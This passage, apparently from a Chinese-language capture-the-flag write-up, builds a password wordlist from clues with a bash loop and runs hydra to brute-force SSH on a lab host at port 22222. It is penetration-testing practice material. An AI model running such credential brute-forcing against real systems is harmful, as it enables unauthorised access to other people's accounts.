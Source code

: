 ```shell
name 	--->Giovanni Berlusconi
corner	--->130R
circuit	--->Suzuka
```

编写一个`bash`脚本即可

```shell
for name in giovanni berlusconi Giovanni Berlusconi "Giovanni Berlusconi"; do
    printf "%s_130R_Suzuka\n" "$name"
done > pass.txt
```

![](./pic-vengeance/34.jpg)

使用`hydra`进行爆破

```shell
hydra 192.168.10.10 -L user.txt -P pass.txt ssh -s 22222
```

![](./pic-vengeance/35.jpg)
